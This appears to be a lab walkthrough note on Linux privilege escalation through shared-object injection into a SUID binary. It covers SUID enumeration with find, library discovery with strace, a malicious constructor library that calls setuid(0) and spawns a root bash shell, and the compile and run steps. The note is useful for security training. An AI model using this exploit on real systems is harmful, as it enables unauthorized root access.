 ```yaml
---
category: Uncategorized
tags: []
---
```

When a program is executed, it will try to load the shared objects it requires.

By using a program called strace , we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so==

The suid-so file should execute with root user permissions.

2. Run strace on the SUID file:
```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
==open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)==

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

3. Create the /home/user/.config directory.

4. Create the file libcalc.c with the following contents:

==libcalc.c==

---

```c - target
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 setuid(0);
 system("/bin/bash -p");
 # system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


---

5. Compile libcalc.c into /home/user/.config/libcalc.so:

```bash - target
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

6. Run the SUID executable to get a root shell:

```bash - target
/usr/local/bin/suid-so
```

Calculating something, please wait…

```bash - target
id
```

>uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...